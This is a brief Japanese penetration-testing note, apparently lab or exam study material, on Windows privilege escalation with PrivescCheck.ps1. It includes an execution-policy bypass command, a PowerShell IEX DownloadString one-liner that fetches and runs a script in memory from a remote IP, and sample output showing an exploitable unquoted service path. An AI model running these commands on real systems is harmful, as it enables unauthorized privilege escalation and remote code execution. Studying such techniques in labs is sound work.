 # PrivilegeCheck

### PrivescCheck.ps1

```
locate PrivescCheck.ps1
```

転送して実行

```
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
```

インメモリで実行

* 末尾に追加

![image-20230219222414202](img/PrivilegeCheck/image-20230219222414202.png)

* powershellを実行

```powershell
powershell.exe IEX (New-object System.Net.Webclient).Downloadstring('http://192.168.45.211/PrivescCheck.ps1')
```





unquotedのパスで、かつ、フォルダの書き込み権限があり、start/stop可能もしくはAutorunの場合に特権昇格できる可能性がある

```cmd
Name              : Service1
ImagePath         : C:\program files\zen\zen services\zen.exe
User              : zensvc@exam.com
ModifiablePath    : C:\program files\zen\zen services\zen.exe
IdentityReference : BUILTIN\Users
Permissions       : WriteAttributes, Synchronize, AppendData, WriteExtendedAttributes, WriteData
Status            : Stopped
UserCanStart      : False
UserCanStop       : False

-----

Name        : Service1
DisplayName : ZenHelpDesk
ImagePath   : C:\program files\zen\zen services\zen.exe
User        : zensvc@exam.com
StartMode   : Automatic
```



* winPEAS

  